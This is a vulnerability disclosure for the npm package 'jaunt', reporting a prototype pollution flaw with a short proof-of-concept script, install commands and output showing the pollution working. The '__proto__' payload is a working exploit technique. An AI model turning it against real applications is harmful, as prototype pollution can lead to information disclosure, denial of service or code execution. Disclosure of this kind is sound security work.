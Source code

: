 # Description

`jaunt` is a package to Get or set a value in an object/array using a dot-delimited string or array of keys. 
This package is vulnerable to `Prototype Pollution`.
This package fails to restrict access to prototypes of objects, allowing for modification of prototype behavior using a `proto` payload, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var jaunt = require("jaunt")
var obj = {}
console.log("Before : " + obj.polluted);
jaunt.set(obj, '__proto__.polluted', 'yes');
console.log("After : " + obj.polluted);

```
2. Execute the following commands in another terminal:

```bash
npm i jaunt # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
Before : undefined
After : yes
```
